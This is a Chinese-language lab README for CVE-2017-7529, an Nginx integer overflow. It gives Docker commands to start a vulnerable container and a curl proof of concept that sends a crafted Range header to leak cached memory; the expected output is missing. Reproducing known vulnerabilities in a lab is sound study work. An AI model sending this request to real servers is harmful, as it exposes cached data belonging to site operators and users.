

## Nginx整数溢出漏洞 CVE-2017-7529

### 获取环境:

1. 拉取镜像到本地

 ```
$ docker pull medicean/vulapps:n_nginx_1
 ```

2. 启动环境

 ```
$ docker run -d -p 8000:80 medicean/vulapps:n_nginx_1
 ```
 > `-p 8000:80` 前面的 8000 代表物理机的端口，可随意指定。 


### 使用与利用

#### POC

1. 访问缓存文件拿到 Content-Length，以 /proxy/demo.png 为例：

```
$ curl -I http://127.0.0.1:8000/proxy/demo.png

HTTP/1.1 200 OK
Server: nginx/1.13.1
Date: Wed, 12 Jul 2017 15:57:57 GMT
Content-Type: image/png
Content-Length: 16585
Connection: keep-alive
Last-Modified: Wed, 12 Jul 2017 15:57:57 GMT
ETag: W/"40c9-5543e4fad0d40"
X-Proxy-Cache:: MISS
Accept-Ranges: bytes
```
看到 `Content-Length: 16585`, 找个比这个数大的值，例如 17208, 第二个 range 值为 0x8000000000000000-17208, 也就是 9223372036854758600

2. 请求时设置 range 如下：

```
$ curl -i http://127.0.0.1:8000/proxy/demo.png -r -17208,-9223372036854758600
```

看到结果：



### 参考链接

* [CVE-2017-7529 Nginx整数溢出漏洞分析](http://galaxylab.org/cve-2017-7529-nginx%E6%95%B4%E6%95%B0%E6%BA%A2%E5%87%BA%E6%BC%8F%E6%B4%9E%E5%88%86%E6%9E%90/)
